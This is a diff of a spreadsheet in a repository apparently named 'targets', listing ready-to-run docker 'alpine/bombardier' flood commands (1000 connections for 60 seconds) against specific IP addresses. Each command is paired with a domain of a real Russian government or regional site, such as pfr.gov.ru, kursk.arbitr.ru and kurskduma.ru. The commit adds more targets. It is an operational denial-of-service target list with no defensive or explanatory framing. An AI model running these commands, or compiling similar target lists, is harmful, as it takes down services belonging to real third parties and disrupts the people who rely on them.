

Before and after one commit to dmitryshagin/targets, an Excel workbook: test.xlsx, sheet Sheet1, drawn as a sheet; only a part is shown; values as stored, in another font and other column widths than the file's, no borders; removed rows and columns are numbered as before the commit, all else as after; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Add files via upload

```diff
--- a/test.xlsx (sheet Sheet1)
+++ b/test.xlsx (sheet Sheet1)
-A1: …60s -l 84.42.45.126&& sleep 5;
+A1: …60s -l 84.42.45.126 && sleep 5;
-C1: www.bryanskobl.ru
+C1: www.rabota-bryanskobl.ru
-A2: …60s -l 84.42.56.189&& sleep 5;
+A2: …60s -l 84.42.56.189 && sleep 5;
-A3: …60s -l 213.183.45.148&& sleep 5;
+A3: …60s -l 213.183.45.148 && sleep 5;
-A4: …60s -l 89.249.48.44&& sleep 5;
+A4: …60s -l 89.249.48.44 && sleep 5;
-A5: …60s -l 5.23.50.50&& sleep 5;
+A5: …60s -l 5.23.50.50 && sleep 5;
-A6: …60s -l 89.223.123.233&& sleep 5;
+A6: …60s -l 89.223.123.233 && sleep 5;
-row 7: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 84.42.45.126&& sleep 5; | 84.42.45.126 | www.rabota-bryanskobl.ru
-A7: …60s -l 91.107.66.166&& sleep 5;
+A7: …60s -l 91.107.66.166 && sleep 5;
-A8: …60s -l 84.42.56.82&& sleep 5;
+A8: …60s -l 84.42.56.82 && sleep 5;
-A9: …60s -l 87.236.16.248&& sleep 5;
+A9: …60s -l 87.236.16.248 && sleep 5;
-A10: …60s -l 91.199.149.231&& sleep 5;
+A10: …60s -l 91.199.149.231 && sleep 5;
-A11: …60s -l 91.215.189.14&& sleep 5;
+A11: …60s -l 91.215.189.14 && sleep 5;
+row 12: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 195.161.52.80 && sleep 5; | 195.161.52.80 | pfr.gov.ru
+row 13: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 212.164.138.171 && sleep 5; | 212.164.138.171 | kursk.arbitr.ru
+row 14: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 212.164.138.173 && sleep 5; | 212.164.138.173 | kursk.arbitr.ru
+row 15: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 212.164.138.175 && sleep 5; | 212.164.138.175 | kursk.arbitr.ru
+row 16: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 95.173.157.58 && sleep 5; | 95.173.157.58 | kursk.roskazna.gov.ru
+row 17: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 31.31.198.239 && sleep 5; | 31.31.198.239 | kurskzags.ru
+row 18: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 185.183.175.240 && sleep 5; | 185.183.175.240 | archive.rkursk.ru
+row 19: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 81.176.228.4 && sleep 5; | 81.176.228.4 | ksp-kursk.ru
+row 20: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 195.93.165.130 && sleep 5; | 195.93.165.130 | tarifkursk.ru
+row 21: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 185.123.195.14 && sleep 5; | 185.123.195.14 | gzhi-kursk.ru
+row 22: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 31.31.196.200 && sleep 5; | 31.31.196.200 | ksokursk.ru
+row 23: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 81.177.24.64 && sleep 5; | 81.177.24.64 | komobr46.ru
+row 24: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 77.243.9.162 && sleep 5; | 77.243.9.162 | imkursk.ru
+row 25: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 176.192.1.54 && sleep 5; | 176.192.1.54 | kurskduma.ru
+row 26: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 87.236.16.254 && sleep 5; | 87.236.16.254 | горсобрание-курск.рф
+row 27: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 91.107.66.166 && sleep 5; | 91.107.66.166 | git46.rostrud.gov.ru
+row 28: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 85.193.84.148 && sleep 5; | 85.193.84.148 | kursk.ru
```
Also changed, not shown: 2 added rows elsewhere in this sheet.
